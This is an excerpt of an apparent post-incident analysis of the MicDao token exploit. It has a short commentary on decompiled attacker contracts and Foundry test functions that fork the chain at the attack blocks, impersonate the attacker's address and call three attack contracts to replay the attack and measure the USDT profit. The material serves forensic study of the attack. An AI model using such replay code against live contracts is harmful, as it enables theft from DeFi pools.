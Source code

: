 ![Misc](../image/231018_MicDao.assets/0503.png)

![Misc](../image/231018_MicDao.assets/0526.png)

Upon decompilation, it becomes clear that these contracts were designed specifically for the MicDao attack. However, the first two contracts appear to have issues. For instance, the second contract is nearly identical to the third one used for the actual attack, except that the initial USDT amount for exchanging MicDao is set at 400k, and the number of contract creations for 'swap' is increased to 150.

```solidity
function testFirstAttackContract() external {
    uint attackBlockNumber = 32711519;
    vm.rollFork(attackBlockNumber);
    vm.startPrank(0xCD03ed98868A6cd78096F116A4b56a5f2C67757d, 0xCD03ed98868A6cd78096F116A4b56a5f2C67757d);
    (bool success, ) = address(0x19925F6f3Fd654Fe98c0a16D751E24Dd176AE8f9).call(hex"8a27ecfb");
    require(success);
}

function testSecondAttackContract() external {
    uint attackBlockNumber = 32711643;
    vm.rollFork(attackBlockNumber);
    vm.startPrank(0xCD03ed98868A6cd78096F116A4b56a5f2C67757d, 0xCD03ed98868A6cd78096F116A4b56a5f2C67757d);
    vm.txGasPrice(3000300501);
    uint256 beforeAttack = usdt.balanceOf(address(0xA5b92A7abebF701B5570db57C5d396622B6Ed348));
    (bool success, ) = address(0x0697B5dc2365e2735Bc1F086E097bcf0c61f518d).call(hex"8a27ecfb");
    require(success);
    emit log_named_decimal_uint("Total USDT profit", usdt.balanceOf(address(0xA5b92A7abebF701B5570db57C5d396622B6Ed348)) - beforeAttack, usdt.decimals());
}

function testThirdAttackContract() external {
    uint attackBlockNumber = 32711700;
    vm.rollFork(attackBlockNumber);
    vm.startPrank(0xCD03ed98868A6cd78096F116A4b56a5f2C67757d, 0xCD03ed98868A6cd78096F116A4b56a5f2C67757d);
    vm.txGasPrice(3000300501);
    uint256 beforeAttack = usdt.balanceOf(address(0xA5b92A7abebF701B5570db57C5d396622B6Ed348));
    (bool success, ) = address(0x502b4A51ca7900F391d474268C907B110a277d6F).call(hex"8a27ecfb");
    require(success);
    emit log_named_decimal_uint("Total USDT profit", usdt.balanceOf(address(0xA5b92A7abebF701B5570db57C5d396622B6Ed348)) - beforeAttack, usdt.decimals());
}
```
